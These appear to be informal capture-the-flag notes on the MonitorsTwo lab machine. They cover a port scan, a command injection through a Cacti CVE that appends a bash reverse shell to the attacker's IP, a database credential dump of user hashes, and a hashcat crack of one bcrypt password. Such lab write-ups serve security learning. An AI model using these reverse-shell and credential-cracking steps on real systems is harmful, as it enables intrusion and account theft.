


Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-09 11:19 IST
Nmap scan report for 10.10.11.211
Host is up (0.60s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 79.39 seconds

cacti 1.2.22 cve
got the shell



how od we get a proper shell

cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi


172.19.0.3      50bca5e748b0

exec "$@"

can we put aproxychain and reach there?

 sh -c /usr/local/bin/php -q /var/www/html/script_server.php realtime ;bash -c 'bash -i >& /dev/tcp/10.10.16.21/4444 0>&1'

bash -c bash -i >& /dev/tcp/10.10.16.21/4444 0>&1

running linpeas

 /etc/mysql/mariadb.cnf                                                     
[client-server]

/etc/pam.d/common-password                                                                                          
/usr/lib/x86_64-linux-gnu/libmariadb3/plugin/caching_sha2_password.so
/usr/lib/x86_64-linux-gnu/libmariadb3/plugin/mysql_clear_password.so
/usr/lib/x86_64-linux-gnu/libmariadb3/plugin/sha256_password.so
/usr/local/include/php/ext/standard/php_password.h
/usr/share/pam/common-password
/usr/share/pam/common-password.md5sums
/var/cache/debconf/passwords.dat
/var/lib/pam/password
/var/www/html/auth_changepassword.php

╔══════════╣ Searching passwords in config PHP files
#$rdatabase_password = 'cactiuser';                                                                                 
$database_password = 'root';

```
bash-5.1$ mysql --host=db --user==root --password=root cacti -e "show tables"
mysql --host=db --user==root --password=root cacti -e "show table"
ERROR 1045 (28000): Access denied for user '=root'@'172.19.0.3' (using password: YES)
```
mysql --host=db --user=root --password=root cacti -e "select * from user_auth"

but this works

bash-5.1$ mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
< --password=root cacti -e "select * from user_auth"
id      username        password        realm   full_name       email_address   must_change_password    password_change     show_tree       show_list       show_preview    graph_settings  login_opts      policy_graphs   policy_treespolicy_hosts    policy_graph_templates  enabled lastchange      lastlogin       password_history        locked  failed_attempts     lastfail        reset_perms
1       admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC    0       Jamie Thompson  admin@monitorstwo.htb               on      on      on      on      on      2       1       1       1       1       on      -1 -1       -1              0       0       663348655
3       guest   43e9a4ab75570f5b        0       Guest Account           on      on      on      on      on      3  11       1       1       1               -1      -1      -1              0       0       0
4       marcus  z$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C    0       Marcus Brune    marcus@monitorstwo.htb                      on      on      on      on      1       1       1       1       1       on      -1 -1               on      0       0       2135691668


using john.py

└─$ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-Intel(R) Core(TM) i5-9300H CPU @ 2.40GHz, 1430/2924 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70Jonsd...hFYK4C
Time.Started.....: Tue Jul 11 00:03:10 2023 (2 mins, 5 secs)
Time.Estimated...: Tue Jul 11 00:05:15 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       68 H/s (7.02ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 8528/14344385 (0.06%)
Rejected.........: 0/8528 (0.00%)
Restore.Point....: 8512/14344385 (0.06%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: mark123 -> funkymonkey
Hardware.Mon.#1..: Util: 94%

Started: Tue Jul 11 00:02:26 2023
Stopped: Tue Jul 11 00:05:17 2023

marcus@monitorstwo:~$ cat /var/mail/marcus
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team

so it is vulnnerable to exploit


